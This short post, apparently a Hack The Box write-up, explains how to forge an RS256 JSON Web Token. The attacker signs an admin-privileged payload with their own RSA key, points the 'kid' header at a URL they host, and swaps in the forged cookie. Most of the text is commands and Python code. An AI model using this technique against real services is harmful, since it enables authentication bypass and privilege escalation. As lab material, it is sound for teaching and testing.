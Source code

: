 ```yaml
---
layout: post
title: "bypassing JWT using remote KID"
keywords: "jwt, json, token, kid, web token"
---
```


> `"kid" (key ID)` is an optional header claim which holds a key identifier, particularly useful when you have multiple keys to sign the tokens and you need to look up the right one to verify the signature - [https://tools.ietf.org/html/rfc7515#section-4.1.4](https://tools.ietf.org/html/rfc7515#section-4.1.4)


#### First create a new private RSA Private Key

```
ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
cat jwtRS256.key
cat jwtRS256.key.pub
```

#### Grab header and payload 
-> https://jwt.io/

#### Generate new token

```
private_key = ‘’'
-----BEGIN RSA PRIVATE KEY-----
88CVL/nFFPb+EcPpz9N2OTG4T8gAsYxgAU3q/Llt/NnXASm6CO4p82VXjaGz
-----END RSA PRIVATE KEY-----
‘’'
payload = {"username":"parity0x1","email":"parity0x1@htb.htb","admin_cap":1}
encoded = jwt.encode(payload, private_key, algorithm="RS256",headers={"kid":"http://10.10.14.100:8000/jwtRS256.key"})
print(encoded)
```

#### Replace cookie

#### Start local server
```
python3 -m http.server
```
